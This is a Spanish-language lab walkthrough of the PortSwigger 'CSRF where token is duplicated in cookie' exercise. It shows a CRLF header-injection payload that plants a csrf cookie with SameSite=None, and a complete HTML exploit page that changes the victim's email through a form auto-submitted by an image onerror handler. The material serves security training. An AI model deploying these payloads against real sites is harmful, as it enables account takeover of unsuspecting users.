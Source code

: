 ```yaml
---
title: CSRF where token is duplicated in cookie
description: Laboratorio de Portswigger sobre CSRF
date: 2025-03-09 10:11:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - CSRF
tags:
  - Portswigger Labs
  - CSRF
  - CSRF where token is duplicated in cookie
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP

## Descripción

Este `laboratorio` tiene una funcionalidad de `cambio de correo electrónico` que es `vulnerable` a `CSRF`. El sitio web utiliza una `medida` de `prevención` contra `ataques CSRF` llamada `double submit` que puede ser evadida. Para `resolver` el `laboratorio`, debemos usar nuestro `servidor de explotación` para alojar una `documento HTML` que realice un `ataque CSRF` y cambie la `dirección de correo electrónico` del `usuario víctima`. Podemos `iniciar sesión` en nuestra cuenta utilizando las credenciales `wiener:peter`

---

## Guía de CSRF

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de CSRF` [https://justice-reaper.github.io/posts/CSRF-Guide/](https://justice-reaper.github.io/posts/CSRF-Guide/)

## Resolución

Al `acceder` a la `web` vemos esto

![](/assets/img/CSRF-Lab-6/image_1.png)

Pulsamos sobre `My account` y nos `logueamos` con las credenciales `wiener:peter`

![](/assets/img/CSRF-Lab-6/image_2.png)

Vemos que hay un `botón` para `cambiar` el `email`

![](/assets/img/CSRF-Lab-6/image_3.png)

Vemos que tenemos un `cuadro de búsqueda` el cual nos permite hacer `búsquedas`

![](/assets/img/CSRF-Lab-6/image_4.png)

Si nos dirigimos a la `extensión Logger ++` de `Burpsuite` vemos que al hacer una `búsqueda` se nos `setea` una `cookie`

![](/assets/img/CSRF-Lab-6/image_5.png)

Vemos que `podemos inyectar parámetros en las cookies`

![](/assets/img/CSRF-Lab-6/image_6.png)

Un `CRLF Injection (Carriage Return Line Feed Injection)` es una `vulnerabilidad` que ocurre cuando un atacante puede `inyectar caracteres de control CR (Carriage Return, \r)` y `LF (Line Feed, \n)` en una `aplicación web` o un `sistema que maneja entradas de texto`. Estos caracteres son utilizados para `indicar` el `final` de una `línea` en muchos sistemas, como en los `encabezados HTTP` o `archivos de texto`. En `Hacktricks` [https://book.hacktricks.wiki/en/pentesting-web/crlf-0d-0a.html](https://book.hacktricks.wiki/en/pentesting-web/crlf-0d-0a.html) y en `PayloadsAllTheThings` [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CRLF%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CRLF%20Injection) podemos encontrar varios `payloads` y `ataques`. Con este pequeño `script` de `python` podemos `encodear` los `caracteres` para que sean `válidos` a la hora de llevar a cabo la `inyección`

```
#!/usr/bin/python3

import urllib.parse

crlf_encoded = urllib.parse.quote("\r\n")
print(crlf_encoded)
```

```
# python crlf_encode.py
%0D%0A
```

Otra forma sería usando este `comando` de `linux`, lo que hace es `obtener` el `carácter` en `hexadecimal` con `xxd -p` y luego le añade el `%` para `convertirlo` en `urlencode`

```
# echo -n "\r\n" | xxd -p | sed 's/\(..\)/%\1/g'            
%0d%0a
```

Algunas `aplicaciones` no mantienen ningún `registro del lado del servidor` de los `tokens` que han sido `emitidos`. En su lugar, `duplican` cada `token` dentro de una `cookie` y un `parámetro de solicitud`. Cuando se `valida` la `solicitud posterior`, la `aplicación` simplemente verifica que el `token` enviado en el `parámetro de solicitud` coincida con el `valor enviado en la cookie`

Esto se denomina `double submit` y se recomienda porque es `fácil de implementar` y `evita` la `necesidad` de que `el servidor almacene información adicional` sobre los `tokens CSRF` en la `sesión` del `usuario` o en una `base de datos`

En esta situación, el `atacante` puede realizar un `ataque CSRF` si el `sitio web` contiene alguna `funcionalidad de configuración de cookies`. Aquí, el atacante `no necesita obtener` un `token válido` propio. Simplemente `inventa` un `token` (quizás en el `formato requerido`, si este es verificado), `aprovecha` el comportamiento de `configuración de cookies` para colocar su `cookie` en el `navegador de la víctima` y luego usa ese `token` en el `ataque CSRF`. Si `cambiamos` el `email` y `capturamos` la `petición` podemos ver `dos tokens CSRF` con el `mismo valor`, uno en la `cookie` y otro que se transmite en el `body` de la `petición`

![](/assets/img/CSRF-Lab-6/image_7.png)

`Si ambos tokens CSRF no coinciden nos devuelve un error`

![](/assets/img/CSRF-Lab-6/image_8.png)

Sin embargo, `si ambos tokens coinciden independientemente del formato que tengan la petición se envía de forma correcta`. Por lo tanto, podemos `confirmar` de `definitivamente` que se está empleando `double submit`

![](/assets/img/CSRF-Lab-6/image_9.png)

Si `modificamos` la `cookie session` vemos que se nos `desloguea` y nos `asigna` una `nueva cookie session`, pero `la cookie csrf no se modifica`

![](/assets/img/CSRF-Lab-6/image_10.png)

Si `inspeccionamos` el `código`, vemos cómo se `envía` el `formulario`. Podemos `usar` este formulario como `modelo` para `construir` nuestro propio `payload`

![](/assets/img/CSRF-Lab-6/image_11.png)

Para `explotar` el `CSRF` tenemos usar el `HTTP Header Injection` para `inyectar nuestra cookie csrfKey y su valor en el navegador de la víctima`. También tenemos que inyectar `Samesite: None`, lo que hace que `la cookie se envíe siempre`, `incluso` en `solicitudes` de `terceros`. Desde 2020, los navegadores exigen que las cookies con `SameSite=None` estén configuradas con `Secure`. Si no se incluye el atributo `Secure` junto con `SameSite=None`, `la cookie no se enviará en las solicitudes entre sitios web`

```
/?search=test
\r\nSet-Cookie: csrfKey= pwned; SameSite= None
```

```
/?search=test%0D%0ASet-Cookie:%20csrfKey=%20pwned%20SameSite=%20None
```

![](/assets/img/CSRF-Lab-6/image_12.png)

Para `comprobar` que `funciona` nos dirigimos al `Exploit server` y lo pegamos. El `valor` del `token CSRF` y el de la `cookie csrfKey` son nuestros, `los cuales obtenemos tras loguearnos`. Lo primero que hace este `exploit` es `rellenar el formulario de cambio de email` y `posteriormente mediante una imagen hacemos una petición que le setea al usuario víctima nuestra csrfKey` y `el atributo Samesite=None`, por último, `como esto no es ninguna imagen va a dar un error y va a enviar el formulario`

```
<html>
    <body>
        <form action="https://0a7500cf04cace2a819aa7c1004f0055.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@gmail.com">
            <input type="hidden" name="csrf" value="pwned">
        </form>
        <img src="https://0a7500cf04cace2a819aa7c1004f0055.web-security-academy.net/?search=test%0D%0ASet-Cookie:%20csrf=%20pwned%3b%20SameSite=%20None" onerror="document.forms[0].submit();">
    </body>    
</html>
```

![](/assets/img/CSRF-Lab-6/image_13.png)

Una vez hecho esto pulsamos sobre `View exploit` para ver si nos `cambia` el `email` a nosotros y `efectivamente` nos lo `cambia`. Independientemente de como generemos el payload, para `completar` el `laboratorio` debemos pegarlo en el `Exploit server` y pulsar sobre `Delivery exploit to victim`. Debemos tener en cuenta que `dos usuarios no pueden tener el mismo email`, por lo tanto, `debemos cambiar nuestro email o cambiar el email en el payload que enviamos`

![](/assets/img/CSRF-Lab-6/image_14.png)
